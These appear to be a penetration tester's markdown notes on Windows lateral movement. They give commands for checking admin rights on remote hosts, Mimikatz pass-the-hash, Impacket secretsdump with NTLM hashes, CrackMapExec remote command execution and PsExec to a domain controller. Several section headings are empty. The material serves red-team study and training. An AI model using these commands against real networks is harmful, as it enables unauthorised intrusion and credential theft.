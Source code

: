 # Lateral Movement

The adversary is trying to move through your environment.

Lateral Movement consists of techniques that adversaries use to enter and control remote systems on a network.

Following through on their primary objective often requires exploring the network to find their target and subsequently gaining access to it. Reaching their objective often involves pivoting through multiple systems and accounts to gain. Adversaries might install their own remote access tools to accomplish Lateral Movement or use legitimate credentials with native network and operating system tools, which may be stealthier.

**Assumptions**

- We already obtained access to the internal environment.
- We are in possess of credential material for one or more users.
- We (optionally) obtained elevated access to one or more machines by unspecified means.

The techniques answer the question - **What type of access can I achieve with the current compromised user?**

When talking about local group membership, we will be mostly interested in being part of the following groups:

- Administrators
- Remote Desktop Users
- Remote Management Users
- Distributed COM Users

#### To check if user is part of Administrators group

The easiest way of determine whether we have local admin access (and therefore we’re part of the local Administrators group) to a remote machine is to attempt to list the content of the C: drive using the following command:

For a single machine

`dir \\<ip or hostname>\C$`

`powershell.exe Get-WMIObject -Class win32_operatingsystem -Computername <ip or hostname>`

For multiple machines

PowerView’s cmdlet Find-LocalAdminAccess that will simply output the machines where the current user have admin privileges.

#### To check if user is part of Remote Management Users

`Invoke-Command -Computername <ip or hostname> -ScriptBlock {whoami}`

#### To check if user is part of Remote Desktop Users

Attempt to RDP. Simple!

#### Check user's local groups

`whoami /groups`

### Access to File Shares

### Access Control Lists

### MSSQL Access

### WMI

### Remote Service Creation

### Remote Desktop Protocol

### PowerShell Remoting

### Password Spray

### RDP Session Hijack

### Pass The Hash

#### Mimilatz

The command should spawn a new cmd.exe process with the credentials of the user we’re trying to impersonate.
`privilege::debug`
`sekurlsa::pth /user:jeff /domain:hackerlab.com /ntlm:HASH /run:cmd.exe`

Pass the has without starting a session

`sekurlsa::pth /user:jeff /domain:hackerlab.com /ntlm:HASH`

Verify. check if you can run commands on DC

`PsExec.exe \\<IP of DC> cmd.exe`

#### Impacket

`secretsdump.py -hashes LM:NTLM ./Administrator@<ip>`

Examples

```
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
secretsdump.py -hashes ':NThash' 'DOMAIN/USER@TARGET'
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'
```

#### CrackMapExec 

`crackmapexec smb <ip> -u <username> -H <hash> -x <command>`

Examples

`crackmapexec smb 192.168.1.105 -u Administrator -H 32196B56FFE6F45E294117B91A83BF38 -x ipconfig`

reference the cheatsheet

### Pass-the-Ticket

**Windows Lateral Movement** 

- Lateral Movement Article https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/
- Pass the hash article https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/
- Pass the hash with Mimikatz https://blog.netwrix.com/2021/11/30/passing-the-hash-with-mimikatz/

